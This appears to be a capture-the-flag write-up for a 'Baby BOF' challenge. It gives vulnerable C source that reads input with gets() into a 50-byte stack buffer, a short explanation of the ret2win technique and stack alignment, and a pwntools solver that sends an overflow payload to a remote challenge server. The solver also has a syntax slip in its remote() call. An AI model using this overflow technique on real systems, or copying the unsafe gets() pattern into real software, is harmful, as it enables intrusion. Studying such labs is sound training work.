

## Baby BOF


### Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

//gcc main.c -o main -fno-stack-protector -no-pie
int setup(){
    setvbuf(stderr, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stdin, NULL, _IONBF, 0);
}

int win(){
    system("cat flag.txt");
}

int main(){
    setup();
    char buf[50];
    puts("Welcome to Cyber League!");
    printf("prove yourself and speak some facts => ");
    gets(buf);
    return 0;
}
```
### Overview
This is a basic ret2win challenge. Where we just need to buffer overflow and reach the RIP/Return region and then call the function "win" to get the Flag. We used return gadget due to ubuntu issue with movaps. The 64 bit calling convention requires the stack to be 16 byte aligned before a call instruction but this is easily violated during ROP chain execution.

### Solver
```py
from pwn import *

con = remote("20.216.40.184" 10001)

win = p64(0x00000000004011c7)
ret = p64(0x0000000000401229)
offset = b"A"*72

payload = offset + ret + win

con.sendline(payload)
con.interactive()
```
